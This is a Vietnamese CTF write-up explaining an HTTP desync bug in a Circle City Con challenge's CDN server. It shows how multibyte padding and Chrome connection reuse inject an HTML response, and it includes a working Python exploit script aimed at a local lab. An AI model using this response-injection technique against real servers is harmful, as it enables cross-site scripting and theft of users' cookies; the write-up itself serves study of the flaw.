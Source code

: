 Một challenge rất hay do `qxxxb` viết trong giải `Circle City Con 8.0` vào năm 2020, thông qua challenge này đã giúp mình hiểu hơn về HTTP desync và browser, cùng vào bài nào

## Goal bài và trở ngại
- Bài gồm 1 frontend server và 1 CDN server chứa các notes do user tải lên. CDN chứa 1 endpoint để get flag nhưng cần có token đúng
- Ta cần tìm ra cách để lấy được token do bot nắm giữ, token này nằm trong cookie của bot khi nó visit các note của ta
- Các note tải lên được lưu vào file và không thông qua hàm encode/sanitize nào tuy nhiên khi trả về từ CDN thì `Content-Type` luôn là `plain/text` do đó không thể XSS trực tiếp

## HTTP Desync
Tại `notes.py` là source code của CDN server, server này được tác giả implement từ raw TCP, đọc đến hàm `send_file` nơi xử lý việc trả về các notes cho user ta sẽ thấy một bug có thể lead đến HTTP desync:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/d6cf50ea-d598-4fb4-a454-9352d209de91)

Hàm `http_header` sẽ prepare phần header cho response:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/7f1d20e1-9bd1-4b91-9ec5-9bc98da0b06b)

Để ý thấy trong header thì length của message được lấy sau khi convert lại từ bytes về string, nhưng khi đem message đi chia thành các chunk thì lại dùng message ở dạng `bytes`, nghĩa là nếu ban đầu message chứa các multibytes unicode thì chắc chắn length khi decode về string sẽ ít hơn so với khi gửi => **HTTP Desync**
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/ace4d6b9-9f82-4d5e-881a-8f87f322340d)

Vậy ta có thể inject thêm 1 response về response gốc của server CDN, vậy ta có thể làm gì với lỗi này?

## Chrome implementation
Chrome có hỗ trợ parallel connection, bằng chứng là khi truy cập vào web ta sẽ thấy nhiều tài nguyên được load cùng lúc, ví dụ như `favicon.ico`, `styles.css`, `main.js` sẽ được load cùng lúc chứ không tuyến tính. Tuy nhiên số tài nguyên được load cùng lúc lại bị giới hạn lại, với mỗi domain thì chrome sẽ chỉ cho phép **6** parallel connection.

Để tiết kiệm tài nguyên, chrome sẽ không luôn luôn khởi tạo 1 TCP connection mới để load resource, mà sẽ check xem có TCP connection nào có thể reuse được không bằng cách kiểm tra `Connection` header, nếu mang giá trị `keep-alive` thì chrome sẽ biết connection này có thể reuse được và tiếp tục fetch resource thông qua tcp connection này.

Như ta thấy thì trong response header của cdn sẽ luôn có `Connection: keep-alive`, vậy liệu ta có thể kết hợp bug HTTP desync ta có và Chrome implementation lại hay không? 

## Exploitation idea
Vì đặc điểm của CDN server là nó sẽ chia response thành các chunk dài 1448 bytes và sleep 0.1s sau mỗi lần gửi, nên ta có thể tạo 1 note chứa payload khiến response bị split ra, 5 note còn lại sẽ khiến cho cả 6 connection bị lock, ngay khi connection của evil note ta tạo ban đầu load xong n bytes đầu tiên, nó sẽ tiếp tục reuse connection để load tiếp các bytes chứa phần response mà ta đã inject vào

Anatomy:
```
-----------------------------------------------------------
admin bot -------------------------------> frontend
admin bot --------------node#0-----------> CDN ( finish in ns )
admin bot --------------node#1-----------> CDN ( finish in n+1s )
admin bot --------------node#2-----------> CDN ( finish in n+1s )
admin bot --------------node#3-----------> CDN ( finish in n+1s )
admin bot --------------node#4-----------> CDN ( finish in n+1s )
admin bot --------------node#5-----------> CDN ( finish in n+1s )
admin bot --------------node#6-----------> CDN (reuse connection of node#0, fetch malicious response)
-----------------------------------------------------------
```

Chrome bắt buộc các HTTP response phải nằm trong các TCP chunk khác nhau, do đó ta sẽ phải canh chỉnh để khiến HTTP response align đúng theo quy tắc này:
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/5dd87041-3d0c-41f1-a7d7-efbc51ece7fa)

Ở đây ký tự `¡` sẽ chiếm 2 byte, ta sẽ pad 1448 byte `¡` và 1448 byte bao gồm (payload + padding) với cách craft trên thì `Content-Type` mà chrome nhận được sẽ là `2896`, thấp hơn nhiều so với length của response thực tế, bằng cách này thì `2896` bytes mà chrome đọc sẽ chỉ đến cuối của phần padding 1448 byte `¡`, phần padding "AAAA..." phía sau là để nâng length của response lên đúng bằng cuối phần padding chữ `¡` ban đầu, và response tiếp theo mà chrome fetch từ connection lúc nãy sẽ là response mà ta inject vào

```py
import requests 

def create_note(content, id):
    burp0_url = "http://localhost:3100/board/add_note"
    burp0_json={"body": content, "id": id}
    return "http://localhost:3101/" + id + "/" + requests.post(burp0_url, json=burp0_json).text.replace("\"", "")

    
def create_evil_note(id, script = "<script>alert()</script>"):
    
    payload = f"""HTTP/1.1 200 OK\r
Content-Type: text/html\r
Content-Length: {len(script)}\r
\r
{script}"""

    payload_len = 1448 
    payload = payload + "A" * (payload_len - len(payload))

    ans = "¡"*1448 + payload 
    create_note(ans, id)

def fill_5_other_connection(id):
    for _ in range(5):
        create_note("😍"*(1448*10), id)


def exploit():
    res = requests.get("http://localhost:3100/create_board", allow_redirects=False)
    id = res.headers['location'][len("/board/"):]
    
    payload = "<script>alert(origin)</script>"

    create_evil_note(id, payload)
    fill_5_other_connection(id)
    create_note("a", id)

    print("payload at: " + id)

exploit()
```
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c5a149a6-4c9a-45a2-8b4d-8b737cdb5122)

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/747bc2b0-67a2-4943-9350-1fb2d258ac53)



